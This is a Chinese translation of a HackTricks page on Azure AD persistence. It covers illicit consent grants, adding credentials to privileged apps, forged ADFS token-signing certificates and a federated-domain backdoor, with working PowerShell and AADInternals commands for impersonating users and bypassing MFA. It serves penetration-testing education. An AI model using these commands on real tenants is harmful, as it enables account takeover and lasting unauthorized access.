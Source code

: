 # Az - 持久性

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧。**

</details>

### 非法同意授权

默认情况下，任何用户都可以在 Azure AD 中注册应用程序。因此，您可以注册一个应用程序（仅适用于目标租户），该应用程序需要高影响权限并获得管理员同意（如果您是管理员，则可以批准）- 例如代表用户发送邮件、角色管理等。如果成功，这将使我们能够进行非常有成果的**钓鱼攻击**。

此外，您还可以接受该应用程序，并以您的用户身份保持对其的访问权限。

### 应用程序和服务主体

通过具有应用程序管理员、GA 或具有 microsoft.directory/applications/credentials/update 权限的自定义角色的特权，我们可以向现有应用程序添加凭据（密钥或证书）。

可以**针对具有高权限的应用程序**或**添加具有高权限的新应用程序**。

一个有趣的角色是**特权身份验证管理员角色**，因为它允许**重置全局管理员的密码**。

此技术还可以**绕过 MFA**。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
* 对于基于证书的身份验证

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### 联合 - 令牌签名证书

在本地 AD 上拥有 **DA 特权**的情况下，可以创建和导入具有非常长有效期的**新令牌签名**和**令牌解密证书**。这将允许我们以任何我们知道其 ImuutableID 的用户身份登录。

以 **ADFS 服务器上的 DA 身份**运行以下命令来创建新证书（默认密码为 'AADInternals'），将其添加到 ADFS，禁用自动滚动并重新启动服务：
```powershell
New-AADIntADFSSelfSignedCertificates
```
然后，使用Azure AD更新证书信息：
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### 联合 - 受信任的域

在租户上具有GA特权的情况下，可以**添加一个新的域**（必须经过验证），将其身份验证类型配置为联合，并配置该域**信任特定的证书**（在下面的命令中为any.sts）和发行者：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考资料

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 PDF 版的 HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
